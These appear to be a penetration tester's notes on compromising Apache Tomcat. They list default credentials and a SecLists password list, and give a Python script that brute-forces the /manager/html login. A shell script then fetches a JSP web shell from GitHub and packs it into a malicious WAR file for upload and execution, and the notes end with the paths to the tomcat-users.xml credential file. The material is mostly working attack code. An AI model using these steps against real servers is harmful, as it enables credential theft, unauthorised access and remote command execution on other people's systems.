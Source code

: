 #### Login
Try `tomcat : s3cret`

If not successful, try this list:
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt

```python - kali
#!/usr/bin/env python
import sys
import requests

with open('tomcat-betterdefaultpasslist.txt') as f:
    for line in f:
        c = line.strip('\n').split(":")
        r = requests.get('http://$TARGET:8080/manager/html', auth=(c[0], c[1]))
        
        if r.status_code == 200:
            print "Found valid credentials \"" + line.strip('\n') + "\""
            raise sys.exit()
```

#### Malicious war upload

[[0._Reverse shells (WEB)#jar war]]

![[Pasted image 20220620190612.png]]

OR

wshell.sh
```bash - kali
#!/bin/sh 

wget https://raw.githubusercontent.com/tennc/webshell/master/jsp/jspbrowser/Browser.jsp -O index.jsp 

rm -rf wshell 
rm -f wshell.war 
mkdir wshell 
cp index.jsp wshell/ 
cd wshell 
jar -cvf ../wshell.war *
```

![[rlwrap]]

Upload and execute.


#### Configuration file
`/opt/tomcat/conf/tomcat-users.xml'

`/usr/share/tomcat9/conf/tomcat-users.xml`


